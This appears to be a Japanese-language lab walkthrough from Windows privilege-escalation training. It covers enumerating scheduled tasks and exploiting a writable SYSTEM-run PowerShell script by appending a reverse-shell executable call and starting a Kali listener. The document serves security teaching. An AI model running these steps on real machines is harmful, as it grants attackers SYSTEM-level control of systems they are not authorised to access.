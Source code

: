 Windowsは、特定の時間、定期的（例：5分ごと）、または何らかのイベント（例：ユーザーのログオン）が発生したときにタスクを実行するように設定できます。 タスクは通常、それを作成したユーザーの権限で実行されますが、管理者は、SYSTEMを含む他のユーザーとしてタスクを実行するように設定することが可能です。
### Commands
残念ながら、他のユーザーが所有するカスタムタスクを低特権ユーザーアカウントとして列挙する簡単な方法はない。   
ユーザーが見ることができるすべてのスケジュールされたタスクの一覧を表示します。
```
> schtasks /query /fo LIST /v
```
PowerShellでは
```
PS> Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State
```
# Privilege Escalation
1. C:\DevTools ディレクトリに、「CleanUp.ps1」という PowerShell スクリプトがあります。このスクリプトを表示します。
```
> type C:\DevTools\CleanUp.ps1
```
2. このスクリプトは、SYSTEMユーザーとして1分ごとに実行されているようです。このスクリプトの権限をaccesschk.exeを使って確認することができます。
```
> C:\PrivEsc\accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1
```
このファイルに書き込む機能があるようです。
3. スクリプトをバックアップする。
```
> copy C:\DevTools\CleanUp.ps1 C:\Temp\
```
4. Kaliでリスナーを開始する。
5. echo を使って、リバースシェル実行ファイルの呼び出しをスクリプトの末尾に追加してください。
```
> echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1
```
6. スケジュールされたタスクが実行されるのを待ち（1分ごとに実行されるはずです）、エクスプロイトを完了します。